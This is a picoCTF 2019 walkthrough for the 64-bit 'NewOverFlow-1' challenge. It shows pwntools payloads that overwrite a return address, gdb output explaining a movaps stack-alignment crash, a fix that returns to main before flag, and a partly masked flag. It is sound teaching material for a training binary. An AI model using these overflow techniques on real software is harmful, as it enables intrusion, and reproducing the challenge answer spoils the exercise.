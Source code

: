 # NewOverFlow-1
200 points

### Description
*"Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. Source."*

### Solution
This is similar to [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md), but this time with a 64-bit architecture. This just means that the return address will be twice as long. We can use the same `gdb` technique from the [previous problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%236%20-%20OverFlow%202.md) to find out how many characters we need in order to overwrite the return address. Go ahead and try this on your own.

Once we get this value, we need to get the return address of `flag`. You can use `objdump` to do this from the command line:
```bash
$ objdump -D ./vuln | grep "<flag>"
```
**NOTE:** The `-D` flag tells `objdump` to disassemble everything in the executable.

Now we'll use the same method that we used in OverFlow 1, but this time we need to use the `p64` function since we are on a 64-bit architecture. However, if we try to do this like we normally would, we will only get segmentation faults. Let's look at this in `gdb`. You'll want to do this from your home directory on the server since you'll need a fake `flag.txt` for the debugger to use.
```bash
$ gdb /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123/vuln
(gdb) run <<< $(python -c "from pwn import *; print('a'*(64+8) + p64(0x400767))")
Starting program: /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln <<< $(python -c "from pwn import *; print('a'*(64+8) + p64(0x400767))")
/bin/bash: warning: command substitution: ignored null byte in input
Welcome to 64-bit. Give me a string that gets you the flag: 

Program received signal SIGSEGV, Segmentation fault.
buffered_vfprintf (s=s@entry=0x7f037581a760 <_IO_2_1_stdout_>, format=format@entry=0x7fff5751b508 "pico\n", args=args@entry=0x7fff5751b428) at vfprintf.c:2314
2314    vfprintf.c: No such file or directory.
(gdb) set disassembly-flavor intel
(gdb) disas
Dump of assembler code for function buffered_vfprintf:
...
   0x00007f037548c6dc <+140>:   punpcklqdq xmm0,xmm0
   0x00007f037548c6e0 <+144>:   mov    DWORD PTR [rsp+0xa4],eax
   0x00007f037548c6e7 <+151>:   lea    rax,[rip+0x389072]        # 0x7f0375815760 <_IO_helper_jumps>
=> 0x00007f037548c6ee <+158>:   movaps XMMWORD PTR [rsp+0x50],xmm0
   0x00007f037548c6f3 <+163>:   mov    QWORD PTR [rsp+0x108],rax
   0x00007f037548c6fb <+171>:   call   0x7f0375489420 <_IO_vfprintf_internal>
   0x00007f037548c700 <+176>:   mov    r12d,eax
...
```

I'm not showing the full output here, just the part of the code that's causing the error. It's the `movaps` command. If we check out the [reference](https://c9x.me/x86/html/file_module_x86_id_180.html) for this command, we'll see this:
>When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.

So, let's check that the return address is 16-byte aligned (i.e. divisible by 16):
```bash
(gdb) p $rsp+50
$1 = (void *) 0x7fff57518d6a
(gdb) p ((unsigned int)$1) % 16
$2 = 10
```

It's not 16-bit aligned. This is why the exploit isn't working and the program is crashing. A creative way that we often get around issues like this is by calling other functions before calling the function we want to use in order to see if the compiler will align things differently and fix our problem.

In this situation, we can try making another call to `main` before calling `flag`. You can get the address for main using `objdump` or `gdb`.
```bash
$ python -c "from pwn import *; print('\x90'*(64+8) + p64(0x00000000004007e8) + p64(0x0000000000400767))" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Welcome to 64-bit. Give me a string that gets you the flag:
picoCTF{XXX}
Segmentation fault (core dumped)
```

**NOTE:** This is one of those problems where each user has a different flag. Make sure you go through the steps on your own machine to get the flag.

<details>
  <summary>Flag:</summary>
  picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_XXXXXXXX}
</details>

[Next Problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%238%20-%20NewOverFlow-2.md)

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
